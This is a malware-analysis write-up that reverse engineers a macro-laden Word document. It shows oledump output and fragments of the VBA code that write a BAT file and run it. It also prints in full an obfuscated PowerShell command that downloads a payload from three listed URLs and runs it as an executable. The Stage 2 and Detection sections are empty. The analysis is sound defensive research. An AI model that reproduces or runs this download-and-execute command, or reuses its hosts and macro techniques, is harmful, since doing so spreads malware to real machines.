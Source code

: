 ```yaml
---
title: Get2092708251.doc
---
```


This post attempts to describe the approach to reverse engineering a malicious Microsoft Word document found on *hybrid-analysis.com*.
Following an overview of the malicious document:
```
URL: https://www.hybrid-analysis.com/sample/8a6b7f579788205fa5580aeefc415883998db8cf9d00aae90ce05594a19cc91d?environmentId=120
MD5: 0f1684b297915b3585cf2169a255e6d5
File type: Microsoft Word 2007+
```

## Technical analysis

Downloaded the malware sample from hybrid-analysis.com, we had a gzip archive containing the malicious Microsoft Word document (`8a6b7f579788205fa5580aeefc415883998db8cf9d00aae90ce05594a19cc91d.bin`).
A common approach to embed a malware inside a Word document is through a VBA macro. Hence, the document it was unzippend as shown below.

```
$ 7z x 8a6b7f579788205fa5580aeefc415883998db8cf9d00aae90ce05594a19cc91d.bin
$ tree
── customXml
│   ├── item1.xml
│   ├── itemProps1.xml
│   └── _rels
│       └── item1.xml.rels
├── docProps
│   ├── app.xml
│   └── core.xml
├── _rels
└── word
    ├── document.xml
    ├── endnotes.xml
    ├── fontTable.xml
    ├── footnotes.xml
    ├── media
    │   └── image1.jpg
    ├── _rels
    │   ├── document.xml.rels
    │   └── vbaProject.bin.rels
    ├── settings.xml
    ├── stylesWithEffects.xml
    ├── styles.xml
    ├── theme
    │   └── theme1.xml
    ├── vbaData.xml
    ├── vbaProject.bin
    └── webSettings.xml
```

Unzipping the document it was noted that the `word/vbaData.xml` file contains two VBA macro names embedded on our document. Below is shown the `word/vbaData.xml` content:
```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<wne:vbaSuppData ... >
  <wne:mcds>
    <wne:mcd wne:macroName="ECLIPSGAZETTE.CARROW.AUTOOPEN" wne:name="EclipsGazette.Carrow.autoopen" wne:bEncrypt="00" wne:cmg="56"/>
    <wne:mcd wne:macroName="ECLIPSGAZETTE.CARROW.COPYTOA" wne:name="EclipsGazette.Carrow.CopyToA" wne:bEncrypt="00" wne:cmg="56"/>
  </wne:mcds>
</wne:vbaSuppData>
```

As shown above, during the analysis two VBA macro on our sample have been found: `EclipsGazette.Carrow.autoopen` and `EclipsGazette.Carrow.CopyToA`.


### Stage 1

As discovered on the `vbaData.xml` file, the malicious document contains some VBA macro. Therefore, the `oledump.py` tool has been used in order to better understand the document structure and VBA code embedded on our document.
Below is shown the `oledump.py` output, displaying the identified `Carrow` VBA module on the `A12` section:

```
$ python oledump.py 8a6b7f579788205fa5580aeefc415883998db8cf9d00aae90ce05594a19cc91d.bin
A: word/vbaProject.bin
 A1:        97 'BlueControl/\x01CompObj'
 A2:       328 'BlueControl/\x03VBFrame'
 A3:       235 'BlueControl/f'
 A4:       112 'BlueControl/i03/\x01CompObj'
 A5:       109 'BlueControl/i03/f'
 A6:         0 'BlueControl/i03/o'
 A7:       948 'BlueControl/o'
 A8:       840 'PROJECT'
 A9:       254 'PROJECTwm'
A10: M    2355 'VBA/Apple'
A11: m    1202 'VBA/BlueControl'
A12: M    4611 'VBA/Carrow'
A13: M    8939 'VBA/ClockFinished'
A14: m     932 'VBA/EndTime'
A15: M    1924 'VBA/EnumsTip'
A16: M    1305 'VBA/Potatoes'
A17:      8571 'VBA/_VBA_PROJECT'
A18:      2140 'VBA/__SRP_0'
A19:        98 'VBA/__SRP_1'
A20:       104 'VBA/__SRP_2'
A21:       179 'VBA/__SRP_3'
A22: M   18253 'VBA/cPalette'
A23:      1398 'VBA/dir'
A24: M   12160 'VBA/wDelcares'
```

As shown above, the document contains multiple VBA modules. The following `oledump.py` command has been performed in order to extract the `Carrow` VBA macro.

```
$ python oledump.py -s A12 -v 8a6b7f579788205fa5580aeefc415883998db8cf9d00aae90ce05594a19cc91d.bin
```

It was noted that the `Carrow` macro contains two main functions, declared also on the `vbaData.xml` file:
- `autoopen`
- `CopyToA`

The `autoopen` macro creates and executes a BAT file on the victim host.
The `copyToA` macro tries to copy and spread the malicious document across others documents on the victim host.

Specifically, the `autoopen` macro create the `C:\APPLE\2614945622319.BAT` file:
```
[ . . . ]
lHandle = CreateFileA("C:\APPLE\2614945622319.BAT", GENERIC_WRITE Or GENERIC_READ, _
                         &H2, 0, CREATE_ALWAYS, FILE_SHARE_WRITE, 0)
[ . . . ]			 
```

write something on the `2614945622319.BAT` file created above:
```
[ . . . ]
Open "C:\APPLE\2614945622319.BAT" For Output As #1
    Print #1, BlueControl.FAQ.Caption
Close #1
[ . . . ]
```

and execute the `2614945622319.BAT` file:
```
[ . . . ]
Testing
End Function
```
where `Testing` function is a wrapper to the following VBA code defined on the `EnumsTip` VBA module:
```
Public Sub ExecCmd(cmdline As String)
  Dim Proc As PROCESS_INFORMATION
  Dim start As STARTUPINFO
  Dim ReturnValue

  start.cb = Len(start)
  start.dwFlags = 1&
  ReturnValue = CreateProcessA(0&, cmdline$, 0&, 0&, 0&, _
  NORMAL_PRIORITY_CLASS, 0&, 0&, start, Proc)

  Do
    ReturnValue = WaitForSingleObject(Proc.hProcess, 0)
  DoEvents
  Loop Until ReturnValue <> 258

  ReturnValue = CloseHandle(Proc.hProcess)
End Sub
```

As shown above, the `autoopen` function writes on the `2614945622319.BAT` file some data using the following VBA code:
```
Open "C:\APPLE\2614945622319.BAT" For Output As #1
    Print #1, BlueControl.FAQ.Caption
Close #1
```

The `BlueControl` is a VBA module which contains a Windows Form named `FAQ`. Moreover, the *FAQ* form contains a Windows shell command on its `Caption` property.
Screenshot:

![libreoffice]({{ site.url }}/assets/images/posts/reversing-the-get2092708251-maldoc/reversing-the-get2092708251-maldoc-libreoffice.png)

...

Below is shown the Windows shell command found on the *Caption* property of the *BlueControl.FAQ* form:

```
p^o^w^e^r^s^h^e^l^l^ ^-^C^o^m^m^a^n^d^ ^$ran^dom ^= ^ne^w-o^bj^ec^t ra^ndo^m; F^ore^ac^h(^$u^rl^ in ^@('^http://mmrm.ir/wp-content/uploads/2020/02/after/444444.png','http://borgodellamerluzza.it/ws0101/wp-content/uploads/2020/02/after/444444.png','https://blog.pingobox.com.br/wp-content/uploads/2020/02/after/444444.png^')) ^{ t^ry{^ $n^am^e = ^$ra^nd^om.n^ext^(5245867, ^985425895^); ^$p^at^h = $^en^v:^program^data +^ '\' ^+ $n^am^e + '^.e^xe^'; (^Ne^w-O^bje^ct N^et.W^ebCl^ien^t).D^own^loa^dFi^le($^ur^l.To^St^ring(^), $^pa^th);^St^art ^$pa^th; ^br^ea^k;}c^at^ch{w^ri^te-^ho^st $_^.E^xc^ept^io^n.^Me^s^sa^g^e^}^}^
```

During the analysis it was noted that the malicious Word document creates the `2614945622319.BAT` BAT file and execute it. Hence, the `2614945622319.BAT` BAT file tries to download the `444444.png` file from the following URL and execute it:
- http://mmrm.ir/wp-content/uploads/2020/02/after/444444.png 
- http://borgodellamerluzza.it/ws0101/wp-content/uploads/2020/02/after/444444.png
- https://blog.pingobox.com.br/wp-content/uploads/2020/02/after/444444.png


### Stage 2

...






## Detection




